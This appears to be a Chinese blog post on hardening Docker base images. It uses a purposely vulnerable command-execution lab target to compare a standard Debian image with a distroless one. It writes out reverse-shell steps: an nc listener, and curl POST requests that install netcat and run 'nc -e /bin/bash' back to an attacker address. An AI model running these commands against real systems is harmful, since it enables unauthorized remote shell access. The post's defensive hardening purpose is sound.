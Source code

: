```yaml
---
layout: post
title: 学习 shell 反弹实现， 优化 Docker 基础镜像安全
categories: [docker, security]
description: 优化精简容器镜像， 降低 shell 反弹攻击风险
keywords: docker, dockerfile, security, shell 
---
```


# 学习 shell 反弹实现， 优化 Docker 基础镜像安全

天天都在说优化 Dockerfile。 到底怎么优化， 优化后的检验指标又是什么？ 没有考虑清楚行动目的， 隔空放炮， 必然徒劳无功。

笔者最近准备在 CI 上增加安全检测， 在分析案例样本的时候， 找到了比较流行的 struts2 漏洞， 其中 [S2-052 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md) 的利用方式就是在 POST 请求中添加恶意代码或命令。

如 Demo 片段所示。

```xml
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
```

## 0x01 确认目标

既然可以远程执行命令了， 那么如何拿到服务器权限也就是必然考虑的事情， 如 `webshell` 、 `shell 反弹` 等 。 

在翻阅的搜索引擎靠前《常见 shell 反弹方式和利用》的文章之后，总结如下。 

**shell 反弹** 即 **使用 `1. 任意方式` 将 `2. /bin/sh` 通过 `3. 网络连接` 方式连接到 `4. 攻击机`**

其中 **任意方式** 常见为:

1. 使用各种 `程序命令` 创建 shell 网络通信
2. 使用各种 `编程语言` 即使构造 shell 网络通信， **对于解释型语言而言，即为依赖运行环境**。
3. 使用 `操作系统中的设备文件` 创建 shell 网络通信。

以上 4个 条件中， 在预设环境中， 能管理的就有 `1. 任意方式` 和 `2. /bin/sh`。 
优化镜像目标已经很明确了， 精简环境， 减少 `1. 和 2.` 的存在


## 0x02 环境准备

根据目标， 设计了一个靶机， 功能是将 POST 的命令直接转换成命令执行。 代码已经放在 Github 上， [任意命令执行漏洞靶机](https://github.com/tangx/vulhub/tree/master/cmd/shell/reflect2) 。

并产出了两个容器镜像。

+ `doslab/vulhub-reflect2:latest` 使用 debian 官方镜像
+ `doslab/vulhub-reflect2:static` 使用 debian 精简镜像， 更多信息参考 [GoogleContainerTools/distroless](https://github.com/GoogleContainerTools/distroless)  


### 0x02.1 部署靶机

```bash
## debian:buster
docker run --rm -d -p 8081:8080 doslab/vulhub-reflect2:latest

## distroless/debian-static10
docker run --rm -d -p 8082:8080 doslab/vulhub-reflect2:static
```

### 0x02.2 利用方式

向接口发送 JSON 数据， 方式如下

```bash
curl -X POST http://127.0.0.1:8081/v0/cmd -d '{
    "command":"ls",
    "args":["-l","-a","-h"]
}'
```

## 0x03 实验开始

### 0x03.1 lastest 靶机

```bash
nc -nvlp 4444
```

```bash
# latest
## nc -v 192.168.233.3 4444 -e /bin/bash
curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"bash",
    "args":["--version"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"apt",
    "args":["update"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"apt",
    "args":["install", "-y", "netcat"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"nc",
    "args":["-v", "192.168.233.3", "4444", "-e", "/bin/bash"]
}'
```


### 0x03.2 static 靶机

**攻击机** 准备监听端口 `5555`

```bash
nc -nvlp 5555
```

**漏洞利用**

```bash
# static
curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"bash",
    "args":["--version"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"apt",
    "args":["update"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"apt",
    "args":["install", "-y", "netcat"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"nc",
    "args":["-v", "192.168.233.3", "5555", "-e", "/bin/bash"]
}'
```

## 0x04 结论

在使用了 **google distroless 镜像** 之后， 在一定程度上阻止了服务漏洞带来的 **常见 shell 反弹攻击** 。 尤其是在类似 golang 这类编译型的语言， 运行环境需求相对简单。 

所以， 在管理 Dockerfile 时

1. **选择或制作简单且符合业务需求的镜像**
    + `1. 可被利用的漏洞或方式越少`
    + `2. 镜像更小， 分发更快`
2. 干净整洁的 docker context 环境
3. 合理的命令层级顺序， 以达到更多的 layer 复用。

其他 Dockerfile 使用探究， 可以阅读 
+ [使用 Dockerfile 构建镜像注意事项](https://tangx.in/2019/03/26/how-to-build-a-image-with-dockerfile/)
+ [Dockerfile 中 ARG 的使用与其的作用域探究](https://tangx.in/2020/11/06/dockerfiles-args-scope)
+ [多阶构建](https://tangx.in/2018/10/30/docker-multi-stage-build/)

## 0xGG 参考文档

+ [反弹Shell原理及检测技术研究](https://www.cnblogs.com/LittleHann/p/12038070.html#_label0)
+ [linux各种一句话反弹shell总结](https://www.anquanke.com/post/id/87017)
+ [反弹shell利用方式](https://www.cnblogs.com/ktfsong/p/11265734.html)


+ [docker security](https://foxutech.com/docker-security/)

